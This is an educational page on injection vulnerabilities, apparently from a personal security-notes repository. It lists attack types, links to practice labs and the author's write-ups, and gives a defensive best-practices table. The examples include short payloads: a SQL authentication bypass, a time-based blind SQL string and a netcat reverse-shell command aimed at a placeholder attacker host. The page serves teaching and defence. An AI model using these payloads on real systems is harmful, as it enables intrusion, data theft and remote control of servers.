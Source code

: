 # Injection

## What is Injection

Injection attacks occur when untrusted input is sent to a code interpreter as part of a command or query. The attacker's input tricks the interpreter into executing unintended commands or accessing unauthorized data.

Injection vulnerabilities are caused by insecure handling of user-supplied data within interpreters (SQL, shell, LDAP, NoSQL, etc.). These vulnerabilities are often found in legacy systems, weakly validated inputs, or poorly written parsing logic. Advanced exploitation can result in full system compromise, lateral movement, or data exfiltration.

## Common Examples

- Putting code in a search bar – Can crash the site or give private info.
- Using fake input in a contact form – Could send harmful commands to the server.
- Entering code in a comment section – Might make the page act weird or dangerous.
- SQL Injection (SQLi) – e.g., SELECT * FROM users WHERE name = '$input'. An attacker supplies input like ' OR 1=1-- to bypass authentication.
- Command Injection – e.g., calling os.system("ping " + userInput), which allows execution of arbitrary system commands.
- LDAP Injection – Manipulating LDAP queries, e.g., (&(user=$input)(password=...)) with * or )(uid=*).
- XPath Injection – Exploiting XML query paths by modifying input to access unauthorized nodes.
- NoSQL Injection – e.g., injecting JSON-like structures into MongoDB queries to bypass access controls.
- Time-based Blind SQL Injection – e.g., using payloads like '; IF (1=1) WAITFOR DELAY '0:0:5'-- to infer true/false based on response time.
- Bash Command Injection – Payloads like ; nc attacker.com 4444 -e /bin/bash in vulnerable shell execution points.
- Stored Injection in an API – Injecting malicious SQL/commands into backend via seemingly safe API fields.
- Object Injection in PHP – Crafting serialized PHP objects to trigger magic methods leading to RCE or file disclosure.
- Polyglot Payloads – Payloads crafted to simultaneously exploit multiple interpreters (e.g., JavaScript and SQL in hybrid injection scenarios).

## Practice Exploiting Injection

### PortSwigger

PortSwigger has multiple labs to see this vulnerability in action. The labs are online and require an account. Here are some labs:

- [SQL Injection](https://portswigger.net/web-security/all-labs#sql-injection)
- [NoSQL Injection](https://portswigger.net/web-security/all-labs#nosql-injection)
- [XML External Entity (XXE) Injection](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection)

### OWASP Juice Shop

The OWASP Juice Shop is an open-source project that is intentionally vulnerable. It has many vulnerabilities and makes finding them a bit of a game using their scoreboard page. It can be accessed with Heroku or using Docker. I ran it using Docker and I seem to recall that one of the vulnerabilities will not work properly if you use Heroku. More information on the project and how to run it can [be found here](https://owasp.org/www-project-juice-shop/).

### TryHackMe

TryHackMe has a couple rooms dedicated to this subject. The rooms are online and require an account. Here are some links to rooms that talk about Injection:

- [OWASP Top 10 - 2021](https://tryhackme.com/room/owasptop102021)
- [Injection Attacks Module](https://tryhackme.com/module/injection-attacks)
- [Advanced SQL Injection](https://tryhackme.com/room/advancedsqlinjection)
- [SQL Injection Lab](https://tryhackme.com/room/sqlilab)
- [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

## Write Ups

Here are some write ups that I have done that involve injection:

### Vulnerabilities

- [Local File Injection](/vulnerabilities/local_file_injection.md)

### TryHackMe

- [Archangel](/write_ups/try_hack_me/archangel.md)
- [Chill Hack](/write_ups/try_hack_me/chill_hack.md)
- [Ignite](/write_ups/try_hack_me/ignite.md)
- [JPGChat](/write_ups/try_hack_me/jpg_chat.md)

## Best Practices

| Best Practice | Why It Matters |
| ------------- | -------------- |
| Use Parameterized Queries (Prepared Statements) | Prevents attackers from injecting malicious code by separating data from commands. |
| Employ Input Validation and Sanitization | Ensures only expected data is processed, reducing the risk of malicious input. |
| Implement Least Privilege Access Controls | Limits the potential impact if an injection attack succeeds by restricting user permissions. |
| Avoid Dynamic SQL Generation | Reduces the risk of injection by not constructing queries with user input directly. |
| Use ORM Frameworks with Caution | While ORMs can help prevent injection, improper use can still lead to vulnerabilities. |
| Escape User Input Appropriately | Escaping special characters can prevent input from being interpreted as code. |
| Regularly Update and Patch Systems | Keeps systems protected against known vulnerabilities that could be exploited via injection. |
| Implement Web Application Firewalls (WAFs) | Provides an additional layer of defense by filtering out malicious input before it reaches the application. |
| Conduct Regular Security Testing | Identifies potential injection vulnerabilities before they can be exploited. |
| Educate Developers on Secure Coding Practices | Awareness and training can prevent the introduction of injection vulnerabilities during development. |

## Summary

Like many of the vulnerabilities in the OWASP Top Ten, the Injection vulnerability stems from trusting user data. All input from external systems and user data should be cleaned and sanitized. Until recently, this was the top item on the OWASP Top Ten list. This vulnerability can range from getting account access, getting unauthorized data and remote code execution. Do not trust user data.
